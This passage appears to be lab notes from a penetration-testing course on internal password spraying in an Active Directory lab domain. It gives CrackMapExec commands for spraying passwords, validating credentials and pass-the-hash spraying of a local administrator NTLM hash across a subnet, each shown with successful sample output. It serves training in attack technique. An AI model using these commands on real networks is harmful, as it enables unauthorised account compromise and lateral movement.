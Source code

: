 ### Example Output
```shell
[+] VALID LOGIN: sgage@inlanefreight.local:Welcome1
Done! Tested 57 logins (1 successes) in 0.172 seconds
```

## Using CrackMapExec
CrackMapExec accepts a text file of usernames to be run against a single password in a spraying attack. We grep for "+" to filter out logon failures and focus on valid login attempts.

### Command
```shell
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

### Example Output
```shell
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

## Validating Credentials with CrackMapExec
After getting hits with our password spraying attack, we can use CrackMapExec to validate the credentials quickly against a Domain Controller.

### Command
```shell
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

### Example Output
```shell
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

## Local Administrator Password Reuse
Internal password spraying is also possible with local administrator accounts. If you obtain the NTLM password hash or cleartext password for the local administrator account, this can be attempted across multiple hosts in the network.

### Local Admin Spraying with CrackMapExec
```shell
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

### Example Output
```shell
SMB 172.16.5.50 445 ACADEMY-EA-MX01 [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB 172.16.5.25 445 ACADEMY-EA-MS01 [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB 172.16.5.125 445 ACADEMY-EA-WEB0 [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```
